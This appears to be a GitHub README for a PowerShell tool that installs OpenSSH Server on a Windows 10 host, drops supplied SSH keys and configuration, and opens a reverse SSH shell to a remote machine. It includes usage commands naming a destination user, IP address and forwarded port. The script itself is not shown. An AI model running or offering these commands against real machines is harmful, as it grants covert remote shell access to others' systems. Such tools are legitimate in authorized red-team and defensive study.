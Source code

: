 lol-reverseSSHell.ps1
=======================
Living Off the LAN - Reverse SSHell

This script is intended to make SSH reverse shells easier to initiate on Windows 10. It utilizes OpenSSH Server (instead of NetCat / NCat) to forward a CMD.exe shell. If OpenSSH Server is missing from the Windows 10 host, the script will install it via WindowsCapability / DISM. ( * If OpenSSH server is missing, the script will ask to install it, then download OpenSSH Server from Microsoft.) Then the script will copy the sshd_config file, ssh private key, and authorized_keys files from the repo's root to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS cli/shell. 

* Please generate NEW SSH KEYs. Use the repo's keys only for testing. 

## Setup Instructions for SSH Keypairs and Help Documentation: 
```Bash
get-help .\lol-reverseSSHell.ps1 
```
```Bash 
get-help .\lol-reverseSSHell.ps1 -Examples
```

## Usage: 
```Bash
.\lol-reverseSSHell.ps1 -DestinationUserName <user> -DestinationHost <IP Address>
```
```Bash
.\lol-reverseSSHell.ps1 -DestinationUserName aj -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
```
 -OR- 
```Bash
Double Click .bat file and enter requested information.
```

Remote cmd.exe in a bash terminal via ssh: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
Remotely executing commands via cmd.exe and powershell.exe:  
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)
